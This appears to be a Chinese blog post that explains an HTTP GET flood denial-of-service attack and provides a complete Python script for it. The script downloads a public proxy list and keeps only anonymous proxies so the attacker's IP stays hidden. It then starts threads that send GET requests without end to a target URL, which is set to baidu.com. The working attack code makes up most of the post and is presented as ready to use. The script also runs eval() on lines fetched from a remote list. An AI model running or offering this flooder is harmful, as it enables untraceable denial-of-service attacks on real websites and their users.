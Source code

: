 ```yaml
---
title: http_get_flood攻击
date: 2018-10-08
tags: [网络,python]
---
```


内容: http_get攻击代码和解释

精华: 完全原创,纯手打代码

<!-- more -->

# 概述

就是简单的请求接口, 复杂点就要伪造下headers, cookies, 不需要大流量, 所以连多线程都可以不要, 但有一点要注意

因为http\_get\_flood需要建立完整的tcp连接, 作为正常用户来访问网站, 所以会暴露自身ip, 可能被封ip

但是不能像syn_flood/udp_flood/icmp_flood那样直接修改源ip, 因为这仨不需要建立连接, 这么做的话服务器返回值都找不到我, 就建立不了连接

所以就得通过代理ip来做, 既能建立连接, 又能隐藏自身ip

# 流程

1. 通过这个api获取代理ip, https://raw.githubusercontent.com/fate0/proxylist/master/proxy.list
2. 清洗掉无效的, 非高匿的, 高延迟的
3. http\_get\_flood

# 代码

```python
#######################################
# 1. 获取代理ip
# 2. 清洗掉无效的, 非高匿的, 高延迟的
# 3. http_get_flood
#######################################

import requests
import threading
import traceback
import random

# 代理ip列表
proxy_list = []
# 线程数
thread_num = 10
# 攻击对象
url = "http://www.baidu.com"
# headers
headers = None
# cookies
cookies = None


def get_proxy():
    """
    获取代理ip
    """
    try:
        # 原始代理ip列表, 包含很多信息, str类型
        ips_raw = requests.get("https://raw.githubusercontent.com/fate0/proxylist/master/proxy.list", timeout=10)
        # 分行
        ip_list_raw = ips_raw.text.split("\n")
        # 删除结尾空行
        del(ip_list_raw[-1])

        ip_list = []
        for ip_raw in ip_list_raw:
            ip_raw = eval(ip_raw)
            # 只要高匿代理
            if ip_raw["anonymity"] != "high_anonymous":
                continue
            dic = {}
            dic[ip_raw["type"]] = ip_raw["host"] + ":" + str(ip_raw["port"])
            ip_list.append(dic)
        return(ip_list)
    except:
        print("获取代理ip失败")
        traceback.print_exc()
        return False


def check_proxies(ip_list):
    """
    清洗代理ip
    """
    # ip_list为清洗前的, proxy_list为清洗后的
    global proxy_list
    threads = []
    for ip in ip_list:
        t = threading.Thread(target=check_proxy, args=(ip,))
        threads.append(t)
        t.start()
    for t in threads:
        t.join()
    print("清洗前代理ip数: " + str(len(ip_list)))
    print("清洗后代理ip数: " + str(len(proxy_list)))


def check_proxy(ip):
    """
    清洗代理ip
    """
    global proxy_list
    try: 
        res = requests.get("http://www.baidu.com", proxies=ip, timeout=1)
        if res.status_code == 200:
            proxy_list.append(ip)
            print("ok: " + str(ip))
        else:
            print("no: " + str(ip))
    except:
        return


def http_get_flood():
    """
    http_get_flood攻击
    """
    global url, proxy_list, headers, cookies
    while True:
        try:
            res = requests.get(url, proxies=random.choice(proxy_list), headers=headers, cookies=cookies)
            print(res.status_code)
        except:
            pass


# 获取代理ip
ip_list = get_proxy()
# 清洗代理ip
check_proxies(ip_list)
# http_get_flood
threads = []
for i in range(thread_num):
    t = threading.Thread(target=http_get_flood)
    threads.append(t)
    t.start()
for t in threads:
    t.join()

```

# 参考资料

[代理ip接口](https://raw.githubusercontent.com/fate0/proxylist/master/proxy.list)